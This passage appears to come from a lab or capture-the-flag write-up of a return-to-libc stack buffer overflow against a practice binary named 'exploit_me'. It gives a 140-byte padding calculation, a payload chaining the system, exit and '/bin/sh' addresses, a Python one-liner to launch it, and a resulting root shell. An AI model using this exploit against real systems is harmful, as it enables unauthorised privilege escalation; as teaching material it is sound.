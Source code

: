 
Binary Ninja indicates that the main function has a stack offset of 0x90 (144). Considering that the saved EBP occupies 4 bytes, we can conclude that the buffer is 140 bytes in length.

**Building the Payload**

Using the memory addresses we found, we can now craft our exploit payload.

**Structure**:

```
padding + address of system + address of exit + address of "/bin/sh"

```

**Payload in Python**:

```python
"\x90"*140 + "\xb7\xe6\xb0\x60" + "\xb7\xe5\xeb\xe0" + "\xb7\xf8\xcc\x58"
```

Run the vulnerable program with the crafted payload:

```python
./exploit_me `python -c 'print("\x90"*140 + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])'`
```

And...

```bash
# whoami
root
```

We did it! We've got root access!
